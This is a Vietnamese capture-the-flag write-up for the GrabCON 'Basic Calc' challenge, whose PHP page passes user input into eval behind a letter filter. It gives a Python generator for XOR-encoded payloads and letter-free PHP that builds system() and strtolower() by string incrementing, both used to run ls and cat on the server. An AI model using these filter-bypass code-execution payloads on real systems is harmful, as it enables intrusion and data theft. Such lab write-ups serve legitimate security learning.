 ```yaml
---
description: cc
---
```


# Basic Calc

‌

## Cách1 : Dùng Xor <a id="cach1-dung-xor"></a>

‌

Ta có source code như sau

```text
<h2>Welcome to da Basic Calc</h2><form action="/" method="POST">    Enter da equation : <br>    <input type="text" name="eq"><br></form>​<?php​if (isset($_POST["eq"])){        $eq = $_POST["eq"];​    if(preg_match("/[A-Za-z`]+/",$eq)){        die("BAD.");    }    echo "Result: ";    eval("echo " . $eq . " ;");}else{  echo highlight_file('index.php',true);  }​?>
```

‌

Ta viết payload encode xor như sau

```text
string = ["system"  , "ls" , "cat" , "flagggg.txt"]char = "!#$%&'()*,-./:;<=>?@[]^_{|}~"for string_code in string:    obfuscate_str_final = ""    for i in string_code:        is_found_obfs = False        for j in char:            for k in char:                if ord(j)^ord(k) == ord(i):                    obfuscate_str_final += ".('%s'^'%s')" %(j,k)                    is_found_obfs = True                if is_found_obfs:                    break            if is_found_obfs:                break        if not is_found_obfs:            obfuscate_str_final +=".'%s'" % i    print("%s = %s" %(string_code , obfuscate_str_final[1:]))
```

```text
(system)(ls /) = (('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@'))((','^'@').('('^'[')." "."/")
```

​![](https://gblobscdn.gitbook.com/assets%2F-Mis_xwrnxbC4COg9dby%2F-MisbF-a-qZfsQOIxeMd%2F-MisdkT68Op9Cz55fPqh%2Fimage.png?alt=media&token=4e2c97ca-2ac9-4491-9ea2-6d3979f1f5b6)‌

Ta thấy có file flagggg.txt là file chứa flag sử dụng code trên ta có:

```text
(system)(cat /*) = (('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@'))(('#'^'@').('!'^'@').(')'^']')." "."/*")
```

​![](https://gblobscdn.gitbook.com/assets%2F-Mis_xwrnxbC4COg9dby%2F-MisbF-a-qZfsQOIxeMd%2F-Mise7fr-OwdjtOszf1H%2Fimage.png?alt=media&token=133dee02-604b-4c2f-9a30-6b76b2cde794)‌

## Cách 2: <a id="cach-2"></a>

‌

Ý tưởng: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)​‌

Nhớ đọc cái trên‌

Dùng URLENCODE rồi quăng code vào burpsuite để chạy

```text
<?php$_=[];$_=@"$_"; // $_='Array';$_=$_['!'=='@']; // $_=$_[0];​//echo $____;// GO TO SYSTEM$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____=$__; //S$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;//SY$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__; //SYS$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__; //SYST$__=$_;$__++;$__++;$__++;$__++;$_____.=$__; //SYSTE$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__; //SYSTEM//echo $_____;//GO TO STRTOLOWER$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______=$__; //S$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //ST$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STR$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STRT$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__;  //STRTO$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__;  //STRTOL$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STRTOLO$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__;  //STRTOLOW$__=$_;$__++;$__++;$__++;$__++;$______.=$__; //STRTOLOWE$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STRTOLOWER​$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__________.=$__; //L$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__________.=$__;//LS​$_____($______($__________." "."/"))//system(strolower(ls "/"))​?>
```

​![](https://gblobscdn.gitbook.com/assets%2F-Mis_xwrnxbC4COg9dby%2F-MisbF-a-qZfsQOIxeMd%2F-Misg-Obl_1Zrg9ItuXs%2Fimage.png?alt=media&token=7dbb5407-b5e3-4818-b420-fd7cfb2ec27a)‌

Tiếp theo ta cat file flagggg.txt

```text
<?php$_=[];$_=@"$_"; // $_='Array';$_=$_['!'=='@']; // $_=$_[0];​//echo $____;// GO TO SYSTEM$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____=$__; //S$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;//SY$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__; //SYS$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__; //SYST$__=$_;$__++;$__++;$__++;$__++;$_____.=$__; //SYSTE$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__; //SYSTEM//echo $_____;//GO TO STRTOLOWER$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______=$__; //S$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //ST$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STR$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STRT$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__;  //STRTO$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__;  //STRTOL$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STRTOLO$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__;  //STRTOLOW$__=$_;$__++;$__++;$__++;$__++;$______.=$__; //STRTOLOWE$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$______.=$__; //STRTOLOWER//cat$__=$_;$__++;$__++;$________.=$__;//c$________.=$_;//ca$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$________.=$__;//cat​​​​$_____($______($________." "."/*"))//system(strolower(cat /*))​?>
```

​![](https://gblobscdn.gitbook.com/assets%2F-Mis_xwrnxbC4COg9dby%2F-MisbF-a-qZfsQOIxeMd%2F-MisgEk0STG32OYnEzsM%2Fimage.png?alt=media&token=50522ce7-5146-4e09-b297-2a76da973e5e)‌

Result: ArrayGrabCON{b4by\_php\_f0r\_y0u}

